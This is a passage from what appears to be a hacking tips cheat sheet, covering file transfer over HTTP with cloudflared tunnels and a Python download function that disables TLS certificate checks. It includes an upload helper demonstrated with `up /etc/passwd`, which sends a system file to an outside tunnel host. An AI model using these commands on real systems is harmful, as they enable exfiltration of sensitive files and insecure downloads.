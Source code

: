 <a id="http"></a>
### 4.vi. File transfer - using HTTPs

#### Download from Server to Receiver:

On the Sender/Server:
```sh
## Spawn a temporary HTTP server and share the current working directory.
python -m http.server 8080 --bind 127.0.0.1 &
# alternative: php -S 127.0.0.1:8080
cloudflared tunnel -url localhost:8080
```
Receiver: Access the URL from any browser to view/download the remote file system.

#### 1 - Upload using PHP:

On the Receiver:
```posh
curl -fsSL -o upload_server.php https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet/raw/master/tools/upload_server.php
mkdir upload
(cd upload; php -S 127.0.0.1:8080 ../upload_server.php &>/dev/null &)
cloudflared tunnel --url localhost:8080 --no-autoupdate
```

On the Sender:
```posh
# Set a function:
up() { curl -fsSL -F "file=@${1:?}" https://ABOVE-URL-HERE.trycloudflare.com; }
# upload files like so:
up warez.tar.gz
up /etc/passwd
```

#### 2 - Upload using PYTHON:

On the Receiver:
```posh
pip install uploadserver
python -m uploadserver &
cloudflared tunnel -url localhost:8000
```

On the Sender:
```posh
curl -X POST  https://CF-URL-CHANGE-ME.trycloudflare.com/upload -F 'files=@myfile.txt'
```

---
<a id="download"></a>
### 4.vii. File download without curl

Using Python, download only:
```sh
# Declare a curl-alternative
purl() {
    local url="${1:?}"
    { [[ "${url:0:8}" == "https://" ]] || [[ "${url:0:7}" == "http://" ]]; } || url="https://${url}"
    "$(which python3 || which python || which python2 || which false)" -c "\
import urllib.request
import sys
import ssl
ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE
sys.stdout.buffer.write(urllib.request.urlopen(\"$url\", timeout=10, context=ctx).read())"
```
